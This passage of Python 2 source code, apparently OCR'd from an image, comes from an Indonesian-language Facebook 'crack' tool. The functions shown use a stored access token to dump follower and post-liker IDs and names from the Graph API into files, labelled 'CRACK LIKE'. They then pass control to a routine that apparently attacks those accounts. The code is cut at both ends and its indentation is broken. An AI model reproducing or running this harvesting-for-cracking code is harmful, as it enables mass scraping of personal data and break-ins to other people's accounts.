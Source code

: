 			raw_input("[Kembali]")
			menu()
                r=requests.get("https://graph.facebook.com/"+idt+"/subscribers?access_token="+toket+"&limit="+limit)
                id = []
                z=json.loads(r.text)
                qq = ('flw.txt').replace(" ","_")
                ys = open(qq , 'w')#.replace(" ","_")
                for a in z['data']:
                        id.append(a['id']+"<=>"+a['name'])
                        ys.write(a['id']+"<=>"+a['name']+'\n')
                        print("\r[•] Dump %s ID\r"%(str(len(id)))),;sys.stdout.flush();time.sleep(0.007)
                ys.close()
                os.rename(qq,file)
                print("\r[•] Total ID : %s           "%(len(id)))
		print('──────────────────────────────────────────')
                metode()

        except KeyError:
		print('[x] Tidak Ada Followers')
                raw_input('[Kembali]')
                menu()
        except requests.exceptions.ConnectionError:
		exit('[x] Koneksi Error')
##### CRACK LIKE #####
def like():
        try:
                toket=open('login.txt','r').read()
        except IOError:
		print(' *! Token Invalid')
                os.system('rm -rf login.txt')
                time.sleep(0.01)
                login()
        try:
		print('──────────────────────────────────────────')
                idt = raw_input("[•] ID Post : ")
		limit = '5000'
                file = 'rozhak.json'
		print('[•] Nama File : '+file)
                try:
                   r=requests.get("https://graph.facebook.com/"+idt+"/likes?limit="+limit+"&access_token="+toket)
                except KeyError:
			print('[x] ID Post Tidak Ada')
			raw_input("[Kembali]")
                        menu()
                id = []
                z=json.loads(r.text)
                qq = ('likess.txt').replace(" ","_")
                ys = open(qq , 'w')#.replace(" ","_")
                for a in z['data']:
                        id.append(a['id']+"<=>"+a['name'])
                        ys.write(a['id']+"<=>"+a['name']+'\n')
                        print("\r[•] Dump %s ID \r"%(str(len(id)))),;sys.stdout.flush();time.sleep(0.007)
                ys.close()
                os.rename(qq,file)
                print("\r[•] Total ID : %s           "%(len(id)))
		print('──────────────────────────────────────────')
		metode()
